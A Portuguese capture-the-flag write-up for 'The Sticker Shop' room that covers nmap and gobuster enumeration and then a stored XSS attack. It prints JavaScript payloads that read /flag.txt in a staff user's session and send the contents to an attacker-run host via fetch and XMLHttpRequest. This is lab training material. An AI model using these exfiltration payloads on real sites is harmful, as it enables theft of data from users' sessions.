



# _**The Sticker Shop CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```


Temos um website  
Como indicado pela sala, temos que obter a flag em <mark>http://[ip_address]:8080/flag.txt</mark>  
Vamos tentar acessar  
Como esperado, não temos autorização. Vamos investigar o site  
Um scan com <mark>Gobuster</mark> não revela nenhuma informação útil  

***

Então, pesquisando um pouco junto da dica, chegou a conclusão que devemos realizar um **ataque XSS**  
Primeiro, vamos tentar alguns ataques simples
> ```bash
> <script>alert('XSS')</script>
> 
> http://[ip_address]:8080/search?q=<script>alert('XSS')</script>
> ```
O retorno é a mesma mensagem que vemos normalmente  
Melhorando nosso _payload_, vamos tentar este daqui
> ```bash
> <script>
> fetch('http://[ip_address]:8080/flag.txt')
>   .then(r => r.text())
>   .then(data => fetch('http://[vpn_ip_address]:8000/?flag=' + btoa(data)));
> </script>
> ```
Mas sem sucesso também  
O que podemos fazer é ligar um servidor HTTP python e realizar a requisição para conseguirmos ler em nossa máquina  
Primeiro, vamos testar para ver se funciona
> ```bash
> 
> ```


E temos um retorno!  
Descobrimos uma vulnerabilidade de Cross-Site Scripting (XSS) que pode afetar um usuário da equipe e que nos permite executar código JavaScript em sua sessão  
Podemos explorar essa vulnerabilidade para obter o conteúdo da página http://[ip_address]:8080/flag.txt  
Procurando por um código em _JavaScript_, encontramos este abaixo. Basta inserir com o servidor python ligado e recuperar a flag
> ```bash
> var target_url = "/flag.txt";
> var my_server = "http://[vpn_ip_address]/data";
> var xhr  = new XMLHttpRequest();
> xhr.onreadystatechange = function() {
>     if (xhr.readyState == XMLHttpRequest.DONE) {
>         fetch(my_server + "?" + xhr.responseText)
>     }
> }
> xhr.open('GET', target_url, true);
> xhr.send(null);
> ```
